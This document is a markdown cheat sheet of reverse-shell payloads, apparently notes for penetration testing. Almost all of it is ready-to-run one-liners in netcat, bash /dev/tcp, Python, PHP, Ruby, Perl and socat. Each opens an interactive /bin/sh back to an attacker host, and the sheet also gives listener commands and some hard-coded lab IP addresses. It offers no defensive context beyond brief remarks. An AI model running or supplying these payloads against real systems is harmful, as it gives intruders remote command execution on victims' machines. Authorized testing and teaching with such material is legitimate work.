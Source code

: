 ## Generate Reverse shell 
https://offsecnewbie.com/reverse_shell.php

### Netcat Listener
```bash
nc -nlvp 1000
```
### Netcat (Traditional)

```bash
nc -e /bin/sh $HOST $PORT
```

### Netcat (OpenBSD)

OpenBSD netcat removed the `-e` flag “for security.” All of these mechanisms will also work on traditional netcat.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.123 8080 >/tmp/f
```

--------

## Bash

Bash **only** reverse shells generally require that `/dev/tcp` is enabled in bash at build-time.

```bash
bash -i >& /dev/tcp/$HOST/$PORT 0>&1
```

Use redirection through a temporary FD (in this case, 42).

```bash
0<&42;exec 42<>/dev/tcp/$HOST/$PORT; sh <&42 >&42 2>&42
```

## Python

```bash
python -c 'import socket as so,subprocess,os;s=so.socket(so.AF_INET,so.SOCK_STREAM);s.connect(("$HOST",$PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## PHP

```bash
php -r '$sock=fsockopen("$HOST",$PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock = fsockopen("192.168.119.221",4444);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);'
```

## Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("$HOST",$PORT).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Perl

```bash
perl -e 'use Socket;$i="$HOST";$p=$PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

-------------
### Socat

[Socat is also a great handler for the shells](https://systemoverlord.com/2018/01/20/socat-as-a-handler-for-multiple-reverse-shells.html)

```bash
socat TCP:$HOST:$PORT exec:/bin/bash,pty,stderr,setsid
```

You can even get a full pty if you use socat as your listener.

Listener:

```bash
socat file:`tty`,raw,echo=0 tcp-listen:$PORT
```

Victim:

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:$HOST:$PORT
```

